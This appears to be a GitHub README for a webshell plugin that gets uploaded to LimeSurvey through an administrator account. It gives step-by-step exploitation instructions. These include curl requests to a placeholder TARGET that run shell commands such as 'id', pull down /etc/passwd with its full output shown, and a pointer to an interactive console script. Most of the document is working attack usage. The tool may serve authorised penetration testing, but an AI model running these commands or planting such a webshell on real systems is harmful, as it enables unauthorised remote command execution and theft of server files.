


# LimeSurvey - Upload a plugin

## Requirements

 - A valid **username and password** of a user with **admin rights** on the LimeSurvey.

## Exploitation

### Step 1: Upload the webshell plugin

Go to "Configuration --> plugins" page, at http://TARGET:10080/index.php/admin/pluginmanager/sa/index, and click on "Upload & install":



### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://TARGET/upload/plugins/WebShell/webshell.php with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://TARGET:10080/upload/plugins/WebShell/webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","exec":"id"}
```

You can also access it by a GET request from a browser:



### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://TARGET:10080/upload/plugins/WebShell/webshell.php with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://TARGET:10080/upload/plugins/WebShell/webshell.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```


### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](https://github.com/p0dalirius/LimeSurvey-plugin-webshell/blob/main/console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/163652719-eb16acba-6e2c-47a2-bc52-21ceff24dc09.mp4

## References
 - https://github.com/p0dalirius/LimeSurvey-plugin-webshell
